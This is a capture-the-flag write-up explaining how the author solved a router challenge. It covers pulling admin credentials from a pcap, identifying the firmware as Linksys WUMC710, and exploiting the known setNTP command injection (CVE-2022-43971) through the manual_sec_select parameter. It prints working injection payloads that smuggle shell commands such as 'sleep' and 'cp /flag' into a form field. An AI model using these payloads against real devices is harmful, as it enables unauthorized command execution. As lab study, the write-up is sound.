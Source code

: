 ## Reachable Fruit
### Category: Web, Pwn, Reversing

Okay, this was a very interesting challenge, and my solution was sort of an uintended solution. 

PS. I do feel this challenge should've been worth more points.

## TLDR (Intended Solution);

1. Extract credentials from the pcap
2. Use the credentials to login to the webserver; which is run using the firmware.
3. Reverse the firmware to find a vulnerability. which was an OS Injection.
4. Cannot get a reverse shell, or an outbound connection. So cp'ed flag to the server root directory, and renamed it to '.js'. Then accessed it via the webserver.

I definitely would like to know if any teams did this challenge in the intended way.

### My Solution

We have 2 files provided to us. 1. firmware.bin 2. traffic.pcap

From the traffic.pcap, after doing a "Follow > TCP Stream" we find :

![image](ReachableFruit/1.png)

`"YWRtaW46YWRtaW4="` decodes to `admin:admin` which does not work. So we need to find the credentials.

In stream 2

![image](ReachableFruit/2.png)

`YWRtaW46OF5oaiV1XjQwRDhiOCVseDQ3bjA=` decodes to `admin:8^hj%u$40D8b8$lxD47n0` which works.

We use these credentials to login to the webserver. We can see that the webserver is running on the firmware.

----

![image](ReachableFruit/3.png)

It's some router administration page. After sometime of poking around the site, I didn't see anything interesting. So decided to reverse the firmware instead.

----

I used the [firmware-mod-kit](https://github.com/rampageX/firmware-mod-kit) to extract a file system with all the binaries and executables running on the system.

From the pcap file, we also know that the traffic is served via `httpd`. 

![image](ReachableFruit/4.png)

---

Loaded up `rootfs/usr/sbin/httpd` in Ghidra, and started reversing to potentially find any bug that I could exploit. 

Now, here's the catch. I couldn't possibly find any bug that I could exploit. 

So, I checked the wireshark again for any other clues? and boy did I find something!

![image](ReachableFruit/5.png)

The name `WUMC710` felt sus, so I looked around. 

Turns out `WUMC710` is a media-connector, a router of sorts, which is exactly what our challenge is running.

![image](ReachableFruit/6.png)

---

I did have a conversation with the author, turns our he missed editing `WUMC710` from the pcap, lmao xD, and I was not intended to find this particular information.

---

I also downloaded the [firmware for `WUMC710`](https://www.linksys.com/support-article?articleNum=148656) and extracted it.

The first thing I did was, diffe'd the `strings` found in challenge httpd and the official one. 

Guess what?

```
                                                                                                                                                                 
┌──(greenpanda999㉿zacian)-[~/Desktop/Hax/reachable_fruit/httpds]
└─$ diff strings_httpd_cisco strings_httpd_chal                                                                                                                                         130 ⨯
1262c1262
< /media/HDD01/broadcom/WUMC710/test2/710_GPL/SDK_Umedia/src/router/shared/broadcom.c
---
> /media/HDD01/broadcom/HAX2023/test2/710_GPL/SDK_Umedia/src/router/shared/broadcom.c
3267c3267
< Content-Disposition: attachment ; filename=Linksys_WUMC710_backup.cfg
---
> Content-Disposition: attachment ; filename=Trellix_HAX2023_backup.cfg

```
Lol, only the names differ.

Even a binary diff over the exectuables showed the same difference.

Turns out, they are the exact same binaries, with same address, functionalities, etc.

---

A quick google search for `WUMC710 vulnerabilities` led me to [this](https://nvd.nist.gov/vuln/detail/CVE-2022-43971).

From the above link :

1. There's an OS Injection vulnerability.

_AND_

2. [https://youtu.be/RfWVYCUBNZ0](https://youtu.be/RfWVYCUBNZ0) 

![image](ReachableFruit/7.png)

This is it! 

The CVE mentioned the bug is in the `do_setNTP()` function. 

Moreover, the author of the video even calls _finding_ the OS injection vulnerability as a __low hanging fruit__ .

But I still couldn't find the bug.!! AAh, that was frustrating!! I couldn't even find `do_setNTP()` function in the binary.

---

So after a conversation with the challenge author, I found out the firmware source code could be open source.

Since reversing wasn't leading my anywhere, I tried to find the source code. 

Bingo! 

__[Source Code](https://sourceforge.net/projects/officiallinksysfirmware/files/wumc710/)__

---

Here on, it was a pretty straight forward challenge.

(Code truncated to show only the important pieces)

```
	{"setNTP.cgi*", "text/html", no_cache, do_apply_post, do_setNTP, do_auth },		

```

```
static void do_setNTP(char *url, FILE *stream)
{
    ...
	setNTP(stream, NULL, NULL, 0, url, path, query);
    ...
}
```
```
static int setNTP(webs_t wp, char_t *urlPrefix, char_t *webDir, int arg,
	     char_t *url, char_t *path, char_t *query)
{
    ...
	if(!strcmp(timeTag, "NTP")){
	...
	}else if  (!strcmp(timeTag, "manual")){
    ...
		setDateTime(wp, &path, &query);
	...
	}
	return 0;
}
```
```
static void setDateTime(webs_t wp, char_t *path, char_t *query)
{
    ...
	second = websGetVar(wp, T("manual_sec_select"), T(""));

	sprintf(cmd_sys,"date -s %s%s%s%s%s.%s", month, day, hour, minute, year, second); //Salim
	printf("cmd_sys=%s \n",cmd_sys);
	system(cmd_sys);
    ...
}
```

BINGO!

So, the attack path was clear.

1. Make a `POST`request to `setNTP.cgi`

2. Include the following parameters

    a. timeTag=manual (so `setDateTime` gets called)
    
    b.  command injection via `manual_sec_select` parameter.

---

### Exploitation

To confirm command injection,

```
timeTag=manual&manual_sec_select=; sleep 2;
```
![image](ReachableFruit/8.png)

---

But I couldn't work `wget` to work. So, I assume, outbount connections are bound by some sort of firewall.

Since, we can access `.js` scripts. I simply moved `/flag` to `/www/x0rc3r3rs.js` and accessed it via the browser.

```
timeTag=manual&manual_sec_select=; cp /flag /wwww/x0rc3r3rs.js;
```

![image](ReachableFruit/9.png)


Flag

![image](ReachableFruit/10.png)


`ARC{7h3n_y0ur_3y35_5h411_b3_0p3n3d}`

---

## After thoughts

After a further conversation with the challenge author, apparently, Ghidra was a major culprit in the process! 

It failed to disassemble, and hence find the `do_setNTP()`, `setNTP()` functions, even the xref to `system()` in `setDateTime()` was missing! 

I'll try to solve this in Binary Ninja someday 🤷
